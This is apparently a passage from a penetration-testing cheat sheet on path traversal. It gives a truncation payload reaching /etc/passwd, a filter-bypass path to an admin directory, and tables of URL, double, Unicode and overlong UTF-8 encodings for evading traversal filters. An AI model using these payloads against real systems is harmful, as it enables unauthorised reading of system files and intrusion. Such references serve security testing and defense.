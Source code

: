 ```bash

# Path Truncal
# On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.
?page=../../../[ADD MORE]../../../../etc/passwd

# can bypass filter to avoid blacklisting 
?page=x/../admin # enter in x dir, back up one dir and lastly go to admin
```
{% endcode %}

#### URL Encoding

| Character | Encoded |
| --------- | ------- |
| `.`       | `%2e`   |
| `/`       | `%2f`   |
| `\`       | `%5c`   |

#### Double Encoding

| Character | Encoded |
| --------- | ------- |
| `.`       | `%252e` |
| `/`       | `%252f` |
| `\`       | `%255c` |

#### Unicode Encoding

| Character | Encoded  |
| --------- | -------- |
| `.`       | `%u002e` |
| `/`       | `%u2215` |
| `\`       | `%u2216` |

#### Overlong UTF-8 Unicode Encoding

| Character | Encoded                         |
| --------- | ------------------------------- |
| `.`       | `%c0%2e`, `%e0%40%ae`, `%c0%ae` |
| `/`       | `%c0%af`, `%e0%80%af`, `%c0%2f` |
| `\`       | `%c0%5c`, `%c0%80%5c`           |



### Sensitive file to get
